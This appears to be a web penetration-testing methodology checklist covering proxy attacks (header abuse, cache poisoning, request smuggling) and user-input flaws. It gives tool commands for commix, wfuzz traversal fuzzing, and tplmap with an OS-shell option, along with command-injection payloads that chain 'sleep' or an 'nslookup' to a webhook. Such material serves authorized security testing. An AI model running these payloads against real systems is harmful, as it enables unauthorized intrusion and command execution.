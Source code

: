 # Methodology

## Proxies
- 🟥 Abusing hop-by-hop headers
```bash
// Tool hbh-header-abuse-test
for HEADER in $(cat /usr/share/seclists/Discovery/Web-Content/BurpSuite-ParamMiner/lowercase-headers); do python3 hbh-header-abuse-test.py -u <url> -x "$HEADER" -v; :'sleep 1'; done
```
- 🟥 Cache Poisoning/Cache Deception
```bash
// Tool Web-Cache-Vulnerability-Scanner
go install -v github.com/Hackmanit/Web-Cache-Vulnerability-Scanner@latest
cp go/Web-Cache-Vulnerability-Scanner tools/Web-Cache-Vulnerability-Scanner/wcvs
cd tools/Web-Cache-Vulnerability-Scanner/
./wcvs -u <url> -hw wordlists/headers -pw wordlists/parameters -f
```
- 🟥 HTTP Request Smuggling 
```bash
// Burp - HTTP Request Smuggler
- Right click on a request and click Extensions > HTTP HTTP Request Smuggler > Smuggle Probe.

// Tool Smuggler by gwen001
wget https://raw.githubusercontent.com/gwen001/pentest-tools/master/smuggler.py
python3 smuggler.py -u <url> -v 3
```
- 🟥 H2C Smuggling
```
// Tool h2csmuggler
python3 h2csmuggler.py -x <url> -t --threads 5 -v
```
- 🟥 Uncovering Cloudflare
- 🟥 XSLT Server Side Injection

## User input
### Reflected Values
- 🟥 Client Side Template Injection (Like SSTI)
- 🟥 Command Injection
```
// Tool commix
commix -r <REQUESTFILE> -p <TEST_PARAMETER>

// Test delay
original_cmd_by_server;sleep+5
original_cmd_by_server&&sleep+5
original_cmd_by_server|sleep+5
original_cmd_by_server||sleep+5

// Test when no effect on the application's response
original_cmd_by_server;nslookup+<webhook>
```
- 🟥 CRLF
```
// Tool crlfuzz
crlfuzz -u <url>
```
- 🟥 Dangling Markup
- 🟥 File Inclusion/Path Traversal
```
// Fast Fuzzing
wfuzz -c -w /usr/share/wfuzz/wordlist/Injections/Traversal.txt --hw 0 http://10.10.10.10/nav.php?page=FUZZ
// Deep Fuzzing (recommend)
wfuzz -X GET -c -w file_inclusion_linux.txt --hw 0 http://10.10.10.10/nav.php?page=FUZZ
wfuzz -X POST -c -w file_inclusion_linux.txt --hw 0 -d "foo=FUZZ" http://10.10.10.10/nav.php

// Can use Burp Active Scanner
```
- 🟥 Open Redirect (Detected by Burp Scanner)
- 🟥 Prototype Pollution to XSS (NodeJS)
- 🟥 Server Side Inclusion/Edge Side Inclusion (Detected by Burp Scanner)
- 🟥 Server Side Request Forgery
- 🟥 Server Side Template Injection (Detected by Burp Scanner)
```
// Tool tplmap
python2 tplmap.py -u 'http://10.10.10.10/page?name=Box*' --os-shell
```
- 🟥 Reverse Tab Nabbing
- 🟥 XSLT Server Side Injection
- 🟥 XSS
- 🟥 XSSI
- 🟥 XS-Search

